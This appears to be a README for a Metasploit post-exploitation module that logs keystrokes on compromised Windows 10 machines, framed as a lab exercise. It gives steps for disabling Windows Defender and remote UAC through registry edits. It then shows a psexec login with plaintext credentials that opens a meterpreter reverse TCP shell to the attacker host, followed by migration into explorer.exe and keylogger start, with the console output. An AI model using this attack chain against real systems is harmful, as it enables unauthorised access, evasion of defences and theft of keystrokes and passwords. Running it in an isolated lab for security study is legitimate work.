 # Big Brogger
A Metasploit module that captures keystrokes on compromised Windows machines.

## Requirements
- Kali Linux virtual machine with Metasploit
- Windows 10 virtual machine

## Getting Started
Before attacking, you need to install and make the Windows machine vulnerable. You can find a guide to help you [here](https://medium.com/@bmatth21/how-to-setup-windows-10-vm-lab-for-hacking-608592d550f2).

### Disabling Windows Defender Real-Time Protection

In order to proceed effectively with the post-exploitation module, it's essential to disable Windows Defender's real-time protection. There are two methods to achieve this:

1. **Via Windows Security Interface:**
    - Navigate to `Windows Security > Virus & threat protection > Real-time protection`. Please note that this method only disables real-time protection temporarily.

2. **Via Registry Editor:**
    - Press `Windows + R` to open the Run dialog.
    - Type `regedit` and hit Enter to open the Registry Editor.
    - Navigate to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`.
    - Create a new DWORD (32-bit) value named `DisableAntiSpyware` and set its value to `1`.


### Disabling Remote UAC (User Account Control)

To complete the setup, it's crucial to disable Remote UAC. Follow these steps:

1. **Open a Command Prompt as Administrator:**
    - Right-click on the Command Prompt icon.
    - Select "Run as administrator".

2. **Execute the Following Command:**
    ```
    REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
    ```
    This command will modify the registry to disable Remote UAC.

## How to use
This a post module so you will have to get access to the Windows machine. You can do it by any means but we will use `windows/smb/psexec` in Metasploit for the demonstration.

First, use psexec to get a session with a valid credential:
```
msf > use windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/smb/psexec) > set RHOST 10.0.2.15
RHOST => 10.0.2.15
msf exploit(windows/smb/psexec) > set SMBUser admin
SMBUser => admin
msf exploit(windows/smb/psexec) > set SMBPass admin
SMBPass => admin
msf exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
[*] 10.0.2.15:445 - Connecting to the server...
[*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445 as user 'admin'...
[*] 10.0.2.15:445 - Selecting PowerShell target
[*] 10.0.2.15:445 - Executing the payload...
[*] Sending stage (175686 bytes) to 10.0.2.15
[+] 10.0.2.15:445 - Service start timed out, OK if running a command or non-service executable...
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.15:49870) at 2024-03-23 22:38:49 +0100

meterpreter >
```

Then, you can background the meterpreter session and run the keylogger:
```
msf6 exploit(windows/smb/psexec) > use xtests/big_brogger
msf6 post(xtests/big_brogger) > set SESSION 1
SESSION => 1
msf6 post(xtests/big_brogger) > run

[*] Migrating to explorer.exe...
[+] Successfully migrated to explorer.exe.
[*] Keylogger started...
```

To exit, simply press `Ctrl+C`.